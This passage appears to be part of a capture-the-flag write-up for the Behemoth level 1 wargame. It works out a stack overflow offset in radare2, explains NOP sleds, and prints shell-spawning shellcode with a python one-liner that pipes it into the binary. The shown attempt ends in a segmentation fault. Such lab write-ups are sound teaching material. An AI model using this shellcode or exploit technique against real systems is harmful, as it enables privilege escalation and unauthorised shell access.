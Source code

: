 From trial and error, I determine that 81 bytes will change the first two bytes of the return address as seen below to our input character (0x41 - A):

```bash
[0xf7e20041]> ood
Wait event received by different pid 17047
Wait event received by different pid 17048
Process with PID 17049 started...
File dbg:///behemoth/behemoth1  reopened in read-write mode
= attach 17049 17049
17049
[0xf7fdaa20]> dc
hit breakpoint at: 8048469
[0x08048469]> dc
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
hit breakpoint at: 804846e
[0x08048469]> dc
Authentication failure.
Sorry.
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0xf7004141 code=1 ret=0
```

We therefore have determined that we have 79 bytes available for our shellcode and the following four bytes should be the address to the shellcode on the stack. The next problem to solve is determining where our shellcode sits on the stack. To assist with jumping to the shellcode, we can implement what's called a NOP sled. NOP stands for "No Operation" and will cause the EIP to increment it's value by 1 to read the next instruction without performing any other actions. By combining many NOPs together, we create a sled that causes EIP to slide all the way to our first shellcode instruction. That means we can change the return address to point to any of these NOPs and we will still execute our shellcode. 

First, let's generate the shell code. There are many ways to do this such as writing a simple C program with the desired code to run and then compiling it. Since generating shell code for opening a shell is so common, we will just pull some shellcode from online: `"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"`. This code opens a shell with the permissions of the user that created this executable file (behemoth2 in this case). This shellcode is 39 bytes in length so we should fill the rest of our input with NOP instructions (\x90). This will give us an input of 79 bytes and the next four bytes will be our address. From our investigation earlier, we saw our input is stored starting at address 0xffffd5ad. Since the address will change slightly depending on how the program is executed, let's increase our value by 5-10 bytes and try jumping there to start. If we are lucky, we will NOP sled into our shellcode.

Since it's hard to input raw bytes into stdin while the application is running, we will pipe the data into the program when we run the execution command. I use python in order to generate the input string but the system command echo can be used as well.

```bash
python -c 'print "\90"*40 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\xbc\xd5\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
```
